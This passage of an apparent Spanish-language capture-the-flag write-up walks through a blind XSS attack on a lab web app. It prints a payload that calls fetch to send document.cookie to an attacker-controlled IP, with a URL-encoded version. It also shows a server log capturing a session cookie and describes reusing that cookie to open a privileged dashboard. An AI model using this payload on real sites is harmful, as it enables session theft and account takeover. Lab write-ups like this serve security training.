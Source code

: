 **Nota:** para enviar este payload es preferible urlencodear, desde BurpSuite podemos seleccionando la carga y pulsar `ctrl+u`

Resultado: confirmamos que algún usuario esta tratando de acceder a nuestro servidor, por lo que podemos tratar de extraer sus cookies.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [10/Oct/2025 20:41:23] code 404, message File not found
10.10.11.12 - - [10/Oct/2025 20:41:23] "GET /prueba HTTP/1.1" 404 -
10.10.11.12 - - [10/Oct/2025 20:41:25] code 404, message File not found
10.10.11.12 - - [10/Oct/2025 20:41:25] "GET /test HTTP/1.1" 404 -
```

## Explotación

Acción: aplicamos los mismos comandos anteriores pero esta vez con la intención de obtener las cookies del usuario que puede estar monitorizando la entrada de este input.

```bash
<img src="http://<IP_Atacante>/<prueba>" onerror=fetch("http://<IP_Atacacante/?cookie="+document.cookie) />
```

**Nota:** cuidado con el `+` de `document.cookie` ya que en urlencode un `+` significa un espacio, entonces para que no entre en conflicto urlencodeamos el `+`. Quedando así `<img+src%3d"http%3a//10.10.16.5/prueba"+onerror%3dfetch("http%3a//10.10.16.5/?cookie="%2bdocument.cookie)+/>`

Resultado: logramos la extracción de cookies, ahora desde un endpoint que requiera autorización como el que vimos de `dashboard` podemos tratar de setear las cookies encontradas y acceder a contenido privilegiado.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [10/Oct/2025 20:48:43] code 404, message File not found
10.10.11.12 - - [10/Oct/2025 20:48:43] "GET /prueba HTTP/1.1" 404 -
10.10.11.12 - - [10/Oct/2025 20:48:44] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.aOlN4Q.lODbtw8aRZpbq6sV6YVHnrjrTNk HTTP/1.1" 200 -
```

Acción: seteamos las cookies desde el DevTools

![Captura](./Imágenes/web_3.png)

Acción: con las cookies añadidas, vamos al endpoint `dashboard` el cual ahora si nos permite acceder no como antes que nos redirigía al inicio y en gobuster veíamos un código de estado `302` de no autorizado. 

![Captura](./Imágenes/web_4.png)

Acción: en el apartado 'Generate Invoice' podemos generar una factura

![Captura](./Imágenes/web_5.png)

Resultado: la factura generada nos proporciona un identificador
